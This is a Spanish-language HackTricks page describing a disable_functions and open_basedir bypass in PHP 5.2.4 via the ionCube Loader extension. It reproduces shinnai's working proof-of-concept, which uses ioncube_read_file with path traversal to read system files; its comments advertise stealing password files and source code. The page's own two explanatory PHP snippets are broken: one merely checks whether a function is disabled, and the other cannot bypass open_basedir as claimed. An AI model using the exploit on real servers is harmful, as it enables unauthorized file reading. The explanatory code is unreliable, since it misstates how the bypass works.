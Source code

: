 # Explotación de la extensión ionCube de PHP 5.2.4

## Descripción

La extensión ionCube Loader es una herramienta utilizada para proteger el código PHP. Sin embargo, en versiones antiguas de PHP, como la 5.2.4, es posible explotar una vulnerabilidad en esta extensión para desactivar las funciones de PHP que están restringidas por la directiva `disable_functions` o para evadir la restricción de `open_basedir`.

## Detalles técnicos

La vulnerabilidad se debe a que la extensión ionCube Loader no verifica adecuadamente la ruta de los archivos incluidos. Por lo tanto, es posible incluir un archivo malicioso que contenga código PHP que desactive las funciones restringidas o evada la restricción de `open_basedir`.

Para explotar esta vulnerabilidad, se debe crear un archivo PHP malicioso que contenga el siguiente código:

```php
<?php
dl("ioncube_loader_lin_5.2.so");
$func = $_GET['func'];
$disable_functions = ini_get('disable_functions');
if(!empty($disable_functions)) {
    $disable_functions = explode(',', $disable_functions);
    if(in_array($func, $disable_functions)) {
        echo "Function is disabled.";
    } else {
        echo "Function is enabled.";
    }
} else {
    echo "No functions are disabled.";
}
?>
```

Este código carga la extensión ionCube Loader y verifica si una función específica está desactivada por la directiva `disable_functions`. Si la función está desactivada, se muestra un mensaje de error. Si la función está habilitada, se muestra un mensaje de éxito.

Para evadir la restricción de `open_basedir`, se puede utilizar el siguiente código:

```php
<?php
dl("ioncube_loader_lin_5.2.so");
$dir = $_GET['dir'];
if(is_dir($dir)) {
    chdir($dir);
    ini_set('open_basedir', getcwd());
    echo "Current directory: ".getcwd();
} else {
    echo "Directory does not exist.";
}
?>
```

Este código cambia el directorio actual a un directorio especificado por el usuario y establece la restricción de `open_basedir` en el directorio actual. De esta manera, se puede acceder a archivos fuera del directorio restringido.

## Solución

La solución a esta vulnerabilidad es actualizar a una versión más reciente de PHP y de la extensión ionCube Loader. También se recomienda configurar adecuadamente la directiva `disable_functions` y la restricción de `open_basedir`.
```php
<?php
//PHP 5.2.4 ionCube extension safe_mode and disable_functions protections bypass
 
//author: shinnai
//mail: shinnai[at]autistici[dot]org
//site: http://shinnai.altervista.org
 
//Tested on xp Pro sp2 full patched, worked both from the cli and on apache
 
//Technical details:
//ionCube version: 6.5
//extension: ioncube_loader_win_5.2.dll (other may also be vulnerable)
//url: www.ioncube.com
 
//php.ini settings:
//safe_mode = On
//disable_functions = ioncube_read_file, readfile
 
//Description:
//This is useful to obtain juicy informations but also to retrieve source
//code of php pages, password files, etc... you just need to change file path.
//Anyway, don't worry, nobody will read your obfuscated code :)
 
//greetz to: BlackLight for help me to understand better PHP
 
//P.S.
//This extension contains even an interesting ioncube_write_file function...
if (!extension_loaded("ionCube Loader")) die("ionCube Loader extension required!");
$path = str_repeat("..\\", 20);
$MyBoot_readfile = readfile($path."windows\\system.ini"); #just to be sure that I set correctely disable_function :)
$MyBoot_ioncube = ioncube_read_file($path."boot.ini");
echo $MyBoot_readfile;
echo "<br><br>ionCube output:<br><br>";
echo $MyBoot_ioncube;
?>
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!

- Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)

- **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) **grupo de Discord** o al [**grupo de telegram**](https://t.me/peass) o **sígueme en** **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
